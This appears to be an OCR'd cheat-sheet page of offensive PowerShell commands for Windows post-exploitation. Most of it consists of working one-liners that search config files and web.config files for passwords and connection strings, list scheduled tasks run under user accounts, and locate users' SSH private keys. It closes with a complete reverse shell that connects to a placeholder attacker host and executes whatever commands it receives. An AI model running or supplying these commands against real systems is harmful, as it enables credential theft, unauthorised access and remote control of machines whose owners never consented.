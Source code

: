 
## **Reading Credentials from Configuration Files**



`Get-ChildItem -Path C:\ -Include *.config -Recurse | Select-String -Pattern 'password='`

Searches for strings containing 'password=' in all .config files on the C: drive, which can reveal hardcoded credentials.

---

## **Dumping Credentials from Scheduled Tasks**



`Get-ScheduledTask | Where-Object {$_.Principal.UserId -notlike 'S-1-5-18'} | Select-Object TaskName, TaskPath, Principal`

Lists scheduled tasks that are configured to run under specific user accounts, potentially revealing credentials used for task execution.

---

## **Extracting SSH Keys from User Directories**



`Get-ChildItem -Path C:\Users\*\.ssh\id_rsa -Recurse`

Searches for RSA private keys in the .ssh directories of all users, which can be used for unauthorized access to SSH servers.

---

## **Retrieving Credentials from Database Connection Strings**



`Select-String -Path C:\inetpub\wwwroot\*.config -Pattern 'connectionString' -CaseSensitive`

Scans for database connection strings in web application configuration files, which often contain credentials for database access.


## **Simple PowerShell Reverse Shell**



`$client = New-Object System.Net.Sockets.TCPClient('attacker_ip', attacker_port); $stream = $client.GetStream(); [byte[]]$bytes = 0..65535|%{0}; while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){; $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i); $sendback = (iex $data 2>&1 | Out-String ); $sendback2  = $sendback + 'PS ' + (pwd).Path + '> '; $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2); $stream.Write($sendbyte,0,$sendbyte.Length); $stream.Flush()}; $client.Close()`

Establishes a basic reverse shell connection to a specified attacker-controlled machine. This allows the attacker to execute commands remotely.

---
